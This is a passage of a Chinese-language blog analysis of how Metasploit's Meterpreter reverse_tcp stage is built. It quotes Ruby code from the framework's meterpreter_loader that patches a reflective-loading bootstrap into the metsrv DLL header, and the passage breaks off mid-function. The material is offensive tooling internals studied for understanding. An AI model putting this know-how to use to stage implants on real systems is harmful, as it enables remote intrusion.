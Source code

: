 call WSASocketA 之后返回的是socket句柄，返回值一般是在eax里面，然后把eax赋值到了edi

继续找找edi，但是发现剩下的edi都是用作调用，好像没有什么明显的作用，那为什么有这个？


## 这个载荷Stages具体是怎么生成的？

这里就要引入我刚才说的先知上的那篇文章的问题了，在 [Meterpreter载荷执行原理分析](https://xz.aliyun.com/t/1709) 文章中，作者提到

> metasploit的meterpreter的payload调用了meterpreter_loader.rb文件，在meterpreter_loader.rb文件中又引入了reflective_dll_loader.rb文件，reflective_dll_loader.rb主要是获取ReflectiveLoader()的偏移地址，用于重定位使用，没有什么可分析的。我们来到这个文件里reflectivedllinject.rb，这个文件主要是修复反射dll的，meterpreter_loader.rb文件主要是用于自身模块使用，修复dll和读取payload的长度的。
> 

其实 `windows/meterpreter/reverse_tcp` 是走的 `meterpreter_loader`，而不是文中的 `reflectivedllinject`，我通过调试发现这个请求载荷的过程是流经 `meterpreter_loader` 文件的

不过这两个文件的功效都是差不多的，我们打开分析一下

映入眼帘的应该是这段

```ruby
  def stage_meterpreter(opts={})
    # Exceptions will be thrown by the mixin if there are issues.
    dll, offset = load_rdi_dll(MetasploitPayloads.meterpreter_path('metsrv', 'x86.dll'))

    asm_opts = {
      rdi_offset: offset,
      length:     dll.length,
      stageless:  opts[:stageless] == true
    }

    asm = asm_invoke_metsrv(asm_opts)

    # generate the bootstrap asm
    bootstrap = Metasm::Shellcode.assemble(Metasm::X86.new, asm).encode_string

    # sanity check bootstrap length to ensure we dont overwrite the DOS headers e_lfanew entry
    if bootstrap.length > 62
      raise RuntimeError, "Meterpreter loader (x86) generated an oversized bootstrap!"
    end

    # patch the bootstrap code into the dll's DOS header...
    dll[ 0, bootstrap.length ] = bootstrap

    dll
  end
```

这段代码里面首先取到了metsrv的dll的文件，然后传入 `asm_invoke_metsrv` 函数做处理，生成汇编字节码，然后替换这个dll的头部

我们看看 `load_rdi_dll` 函数，这个函数取到了一个偏移量然后传入 `asm_invoke_metsrv` 函数做处理了

```ruby
  def load_rdi_dll(dll_path)
    dll = ''
    ::File.open(dll_path, 'rb') { |f| dll = f.read }

    offset = parse_pe(dll)

    unless offset
      raise "Cannot find the ReflectiveLoader entry point in #{dll_path}"
    end

    return dll, offset
  end

  def parse_pe(dll)
```